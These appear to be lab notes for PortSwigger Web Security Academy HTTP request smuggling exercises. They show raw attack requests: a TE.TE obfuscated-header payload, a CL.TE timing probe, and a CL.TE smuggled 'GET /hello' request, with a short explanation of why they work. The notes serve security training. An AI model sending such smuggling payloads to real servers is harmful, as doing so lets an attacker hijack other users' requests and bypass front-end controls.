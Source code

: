 Request attack:
```
POST / HTTP/1.1
Host: 0a2f00b104a1a7da844da6d300390070.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Transfer-Encoding: x
Content-Length: 4

56
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

0

```
## Finding HTTP request smuggling vulnerabilities
### Lab: HTTP request smuggling, confirming a CL.TE vulnerability via differential responses

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server, so that a subsequent request for / (the web root) triggers a 404 Not Found response. 

This request trigger timeout error, confiming a CL.TE vul
```
POST / HTTP/1.1
Host: 0ae2005004caa85683ea69fa00920089.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 6

3
abc
X
```
Attack request:
```
POST / HTTP/1.1
Host: 0ae2005004caa85683ea69fa00920089.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 39

0


GET /hello HTTP/1.1
X-Ignore: X
```
The reason for this to work is, the back-end sever will recieve:
```
GET /hello HTTP/1.1
X-Ignore: XGET / HTTP/2
Host: 0ae2005004caa85683ea69fa00920089.web-security-academy.net
```
### Lab: HTTP request smuggling, confirming a TE.CL vulnerability via differential responses

